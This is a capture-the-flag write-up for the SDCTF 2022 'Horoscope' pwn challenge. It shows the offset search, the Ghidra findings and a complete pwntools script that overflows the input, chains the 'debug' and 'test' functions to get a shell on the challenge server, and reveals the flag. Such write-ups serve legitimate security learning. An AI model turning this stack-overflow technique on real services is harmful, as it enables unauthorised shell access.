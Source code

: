 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | Horoscope Writeup
desc: Check out our writeup for Horoscope for Sdctf 2022 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: pwn
challenge: Horoscope
tags: "pwn, taz"
date: 2022-05-10T00:00:00+00:00
last_modified_at: 2022-05-10T00:00:00+00:00
---
```



> Solved by: Taz34

Here we have a binary so the first thing i started to look for is to get a segmentation fault and we got it.


![](https://i.imgur.com/DQB46Va.png)


Now I started looking for offset so the offset multiple to be added is 42 
i.e.
 

    python3 -c "print('10/10/1999/10:' + '1'*42)"
    Hence the payload is: 10/10/1999/10:111111111111111111111111111111111111111111

Now we started looking at Ghidra, and we found a function “test” from which we can get a shell on target.

![](https://i.imgur.com/2LPxEzD.png)


here we have a problem that we need to make this (temp == 1) conditon true.
So, after going to other functions we found another function “debug”

![](https://i.imgur.com/NWfIhEj.png)


Now we can construct the final payload as:

    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + debug_fun_addr  + test_fun_addr

hence the final script:

    from pwn import *
    
    p = remote("horoscope.sdc.tf", 1337)
    
    payload = b"01/01/2001/01:111111111111111111111111111111111111111111" + p64(0x40096e) +p64(0x400950)
    
    p.sendline(payload)
    
    p.interactive()

now just execute this script to get the flag

![](https://i.imgur.com/QlX6mYU.png)

    Flag: sdctf{S33ms_y0ur_h0rO5c0p3_W4s_g00d_1oD4y}

